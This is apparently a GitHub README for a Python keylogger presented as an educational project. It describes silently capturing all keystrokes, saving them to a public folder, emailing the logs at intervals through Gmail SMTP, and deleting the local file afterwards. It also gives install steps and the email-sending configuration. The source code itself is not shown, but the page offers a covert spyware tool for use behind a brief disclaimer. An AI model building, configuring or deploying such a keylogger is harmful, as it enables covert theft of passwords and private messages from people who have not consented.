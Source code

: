 🖥️ Keylogger – Educational Python Project






A simple yet powerful keylogger written in Python 🐍 for educational purposes. This tool demonstrates concepts in cybersecurity and Python programming by capturing keystrokes, logging them to a file, and periodically emailing the logs to a specified address. The script runs silently in the background using threading.

✨ Features

⌨️ Keystroke Logging – Captures all keyboard events with timestamps 📅.

🧵 Background Operation – Uses Python's threading for seamless background execution.

📧 Automated Email Reports – Sends captured logs securely via Gmail’s SMTP.

🗑️ Log Management – Deletes logs after sending to keep things clean and secure.

⚙️ How It Works

Listener – Uses keyboard library to capture key presses.

Logging – Saves keystrokes with timestamps in C:\Users\Public\logfile.txt.

Scheduler – Runs in a background thread ⏱️.

Emailing – Sends log files as email attachments at defined intervals.

Cleanup – Deletes log file after successful email transmission.

Persistence – Keeps running silently until manually stopped.

🚀 Getting Started
📋 Prerequisites

Python 3.x

pip (Python package manager)

🛠️ Installation
# Clone the repository
git clone https://github.com/lakshya-004/Keylogger.git  

# Navigate into the project folder
cd Keylogger  

# Install dependencies
pip install keyboard

📝 Configuration

Before running the script, update your email settings inside Main.py:

send_email_with_attachment(
    sender_email="your_email@gmail.com",
    app_password="your_gmail_app_password",
    recipient_email="recipient_email@example.com",
    subject="Keylogger Log File",
    body="Attached is the keylogger log file.",
    file_path=log_file_path
)


🔹 Use a Google App Password instead of your Gmail password (required for 2FA accounts).
🔹 Change time.sleep(60) inside schedule_email() to adjust the email interval (in seconds).

▶️ Running the Script
python Main.py


The script runs in the background silently. To stop it:

Press Ctrl + C in the terminal, or

End the process via Task Manager.

⚠️ Disclaimer

This project is for educational purposes only 🏫.
Misuse of this tool on systems without explicit permission is illegal and unethical.
The author is not responsible for any misuse or consequences.
Use responsibly and within the boundaries of the law ⚖️.
